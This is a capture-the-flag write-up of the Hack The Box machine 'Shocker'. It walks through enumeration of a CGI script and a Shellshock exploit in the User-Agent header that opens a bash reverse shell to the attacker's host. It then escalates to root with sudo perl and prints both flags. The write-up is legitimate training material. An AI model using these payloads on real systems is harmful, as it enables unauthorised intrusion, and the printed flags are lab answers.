








## About

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.

## 🛠 Tools

```
nmap        → service discovery & version detection
ffuf        → directory enumeration
gobuster    → CGI script discovery
Burp Suite  → request interception & header payload injection
nc          → reverse shell listener
bash        → reverse shell execution & navigation
sudo        → privilege verification (sudo -l)
perl        → root shell via GTFOBins
```

## Enumuration

To streamline testing, add the target IP to `/etc/hosts` and assign it the hostname `shocker.htb`.

- **IP address:** `10.129.45.34`
- **Hostname:** `shocker.htb`



### Nmap enumeration

I ran an aggressive scan with service and version detection against `shocker.htb`:

```bash
nmap -A -T4 -sV -Pn shocker.htb
```

#### Results

```
Starting Nmap 7.95 (https://nmap.org) at 2026-03-05 10:07 EAT
Nmap scan report for shocker.htb (10.129.45.34)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

Device type: general purpose
Running: Linux 3.X|4.X
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   174.07 ms 10.10.14.1 (10.10.14.1)
2   175.26 ms shocker.htb (10.129.45.34)

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

#### Key findings

- **HTTP (80/tcp):** Apache `2.4.18` on Ubuntu.
- **SSH (2222/tcp):** OpenSSH `7.2p2` on Ubuntu, running on a non-standard port.
- **OS fingerprint:** Linux kernel in the `3.2` to `4.14` range.
- **Reachability:** Host is up with ~`0.17s` latency and `2` hops distance.

### Web (port 80)

Based on the Nmap results, I browsed to the HTTP service on port 80.



The site returned a simple “Don’t Bug Me!” landing page with a single image. I checked the page source, but it contained only basic HTML and an image reference (`bug.jpg`):

```html
<!DOCTYPE html>
<html>
  <body>
    <h2>Don't Bug Me!</h2>
    
  </body>
</html>
```

There were no obvious hints in the source, so I pivoted to directory enumeration.

### Directory enumeration (ffuf)

I performed directory brute-forcing against the web root using `ffuf` with a common directory wordlist:

```bash
ffuf -u http://shocker.htb/FUZZ/ \
	-w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
	-c -ic -t 200
```

#### Results

```
cgi-bin  [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 200ms]
icons    [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 204ms]
```

#### Notes

- The presence of `/cgi-bin/` suggests potential exposure to **Shellshock** if a vulnerable CGI script is accessible.
- To test Shellshock, we first need to identify an actual script under `/cgi-bin/` (typically with a `.cgi` or `.sh` extension).

Next, I enumerated `/cgi-bin/` for potential CGI scripts (common targets for Shellshock):

```bash
gobuster dir \
	-u http://shocker.htb/cgi-bin/ \
	-w /usr/share/seclists/Discovery/Web-Content/big.txt \
	-x sh,cgi \
	-t 50
```

#### Results



```
/user.sh (Status: 200) [Size: 119]
```

#### Notes

- `user.sh` is directly accessible over HTTP, making it a strong candidate for **Shellshock** testing.
- Several requests timed out during the scan. If needed, rerun with a lower thread count (for example, `-t 20`) and a longer timeout to reduce false negatives.

Next i visited /cgi-bin/user.sh and found



Simple Up time script

Next, I intercepted the request in Burp Suite.



The browser issued a straightforward `GET` request to the CGI script:

```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

I tampered with the `User-Agent` header and injected a **reverse shell** payload (Shellshock):

```bash
() { :; }; /bin/bash -i >& /dev/tcp/10.10.15.127/4444 0>&1
```



Then I started a **netcat listener** on my machine:

```bash
nc -lvvp 4444
listening on [any] 4444 ...
```

### Reverse shell (foothold)

Once the payload executed, the target connected back to my listener and I confirmed code execution as `shelly`:

```bash
nc -lvvp 4444
listening on [any] 4444 ...
connect to [10.10.15.127] from shocker.htb [10.129.45.34] 32818
bash: no job control in this shell

shelly@Shocker:/usr/lib/cgi-bin$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### User flag

The user flag was located in `shelly`’s home directory:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
8f585fa7e040fbaf219a352176f7fc09
```

# Privilege Escalation

I checked `sudo` permissions and found `perl` could be run as root without a password:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
	env_reset, mail_badpass,
	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
	(root) NOPASSWD: /usr/bin/perl
```

Since `perl` is allowed, I used the corresponding GTFOBins technique to spawn a root shell.



Using `sudo`-permitted `perl`, I spawned a root shell via GTFOBins:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh"'
# Verify privileges
id
uid=0(root) gid=0(root) groups=0(root)
```

With root access confirmed, I retrieved the root flag:

```bash
cat /root/root.txt
9ff9b546f2a80ef9e16c1df585e9f715
```

# What this machine teaches

- Enumeration and validation come first. A quick scan and simple checks can reveal the whole attack surface.
- Small misconfigurations can have big impact. Exposed CGI scripts and outdated components turn into full compromise.
- Chain exploitation into escalation. A foothold is only step one, and weak sudo rules can make root trivial.

# Conclusion

Overall, Shocker is a short but high-impact machine: one exposed CGI endpoint combined with an old Bash vulnerability is enough to turn a basic web service into a full compromise.


# Author: Z4B0 [LinkedIn](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)


